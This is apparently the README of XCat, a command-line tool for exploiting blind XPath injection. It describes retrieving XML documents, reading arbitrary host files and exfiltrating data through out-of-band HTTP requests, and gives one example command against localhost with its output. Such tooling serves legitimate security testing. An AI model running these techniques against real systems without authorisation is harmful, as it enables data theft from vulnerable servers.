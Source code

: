 XCat
====

[![Build Status](https://travis-ci.org/orf/xcat.svg?branch=master)](https://travis-ci.org/orf/xcat)

XCat is a command line program that aides in the exploitation of blind XPath injection vulnerabilities. It can be used
to retrieve the whole XML document being processed by a vulnerable XPath query, read arbitrary files on the hosts filesystem
and utilize out of bound HTTP requests to make the server send data directly to xcat.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request)
and it requires you to manually identify the exploit first, this does not do that for you. Check out the docs 
at http://xcat.readthedocs.org/ for more info.

**Note:** This requires Python 3.4 to run.


An example::

    >> xcat --public-ip="localhost" http://localhost:80 title=Bible title "Book found" run retrieve
    Injecting using SingleQuoteString
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    Retrieving /*[1]
    <?xml version="1.0" encoding="utf-8"?>
    <lib test="1" attribute1="3">
        <book>
                <!-- Comment -->
                <title>Bible</title>
                <description another="attribute">The holy book</description>
    ...
